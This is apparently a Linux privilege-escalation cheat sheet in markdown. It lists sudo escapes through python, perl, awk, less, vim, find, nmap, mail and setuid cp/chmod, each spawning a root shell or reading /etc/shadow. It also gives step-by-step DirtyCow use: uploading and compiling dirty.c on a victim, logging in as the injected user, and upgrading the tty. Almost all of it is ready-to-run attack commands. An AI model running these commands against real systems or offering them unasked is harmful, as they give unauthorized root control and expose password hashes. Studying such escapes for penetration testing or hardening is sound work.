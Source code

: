 # Linux Privesc

## Sudoers - Privesc

#### Exhaustive list
https://gtfobins.github.io/

```
➤ Python
sudo -u root /usr/bin/python
>>> from subprocess import call
>>> call(['/bin/bash'])

➤ Perl
sudo -u root /usr/bin/perl -e ‘`/bin/bash`’

➤ CP + Chmod
sudo -u root /bin/cp exploit exploit
sudo -u root /bin/chmod +xs exploit
./exploit

➤ Awk
awk 'BEGIN {system("/bin/bash")}'

➤ Less
• Solution 1 - read a file
sudo -u root /usr/bin/less /etc/shadow
 
• Solution 2 - create a file
sudo -u root /usr/bin/less 
then insert the following command :
!/bin/bash

➤ Vim
sudo -u victim /usr/bin/vim
then write the following command (same way to quit vim :!q):
:!/bin/bash

➤ Find
sudo -u root /usr/bin/find /bin -name "bash" -exec {} \;

➤ Bash
sudo -u root /bin/bash

➤ Nmap
sudo -u nmap –interactive
nmap>!bash
or
nmap>!sh

➤ Mail
sudo mail --exec='!/bin/bash'
```

## Crontab - Privesc

## DirtyCow

• https://dirtycow.ninja/

• https://github.com/FireFart/dirtycow/blob/master/dirty.c


```
➤ 1. Upload the exploit on the victim

➤ 2. Compile the exploit
gcc -pthread dirty.c -O dirty -lcrypt
chmod +x dirty

➤ 3. exploit it
./dirty
Please enter the new password: lexiswashere

➤ Privesc
su firefart
Password: lexiswashere

Note: if the 'su : must be run from a terminal' error appear, upgrade tty 
python -c 'import pty; pty.spawn("/bin/sh")'
```
